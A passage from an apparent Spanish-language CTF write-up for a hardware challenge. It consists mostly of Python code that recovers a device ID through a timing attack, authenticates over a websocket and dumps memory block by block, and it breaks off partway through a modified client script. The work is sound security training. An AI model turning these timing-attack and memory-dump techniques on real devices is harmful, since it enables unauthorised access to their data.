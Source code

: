 ```py
                print(f'Read 0x{addr:06X}:', data.hex())
                addr += 0x400
    except Exception as e:
        print("Error durante autenticación/lectura:", e)

async def main():
    # 1) Obtener ID mediante ataque de temporización
    final_id = await find_id()
    print(f"ID descubierto completo: {final_id.decode()}")
    # 2) Autenticar y volcar contenido
    await authenticate_and_dump(final_id)

if __name__ == '__main__':
    asyncio.run(main())
```

El script modificado de `client.py` es el siguiente. (Créditos a [yun](https://yun.ng/c/ctf/2025-umass-ctf/hardware/fcsign) por contar con un script más óptimo que el mío)

```py
import asyncio
import json
import base64
import string
import websockets
from comm import encode_packet, decode_packet, COMMANDS, RESPONSES

URL = 'ws://hardware.ctf.umasscybersec.org:10004'


async def send_raw(ws, data: bytes):
    env = json.dumps({'data': base64.b64encode(data).decode()})
    # print(f">>> {data.hex()}")
    await ws.send(env)


async def recv_pkt(ws):
    msg = await ws.recv()
    obj = json.loads(msg)
    raw = base64.b64decode(obj['data'])
    # print(f"<<< {raw.hex()}")
    info = decode_packet(raw)
    return info, obj.get('cycles')


async def dump_until_fail(ws):
    data = bytearray()
    addr = 0
    while True:
        pkt = encode_packet(COMMANDS.READ, addr.to_bytes(4, 'little'))
        await send_raw(ws, pkt)
        resp, _ = await recv_pkt(ws)
        status = resp['status']
        if status != RESPONSES.ACK:
            print(f"[-] READ failed at {hex(addr)}: {status.name}")
            return data, addr, status
        data.extend(resp['args'])
        print(f"[+] Read 0x400 bytes from {hex(addr)}")
        addr += 0x400


async def main():
    ws = await websockets.connect(URL)
    await send_raw(ws, b'\x55\x00\xC1\x00')
```
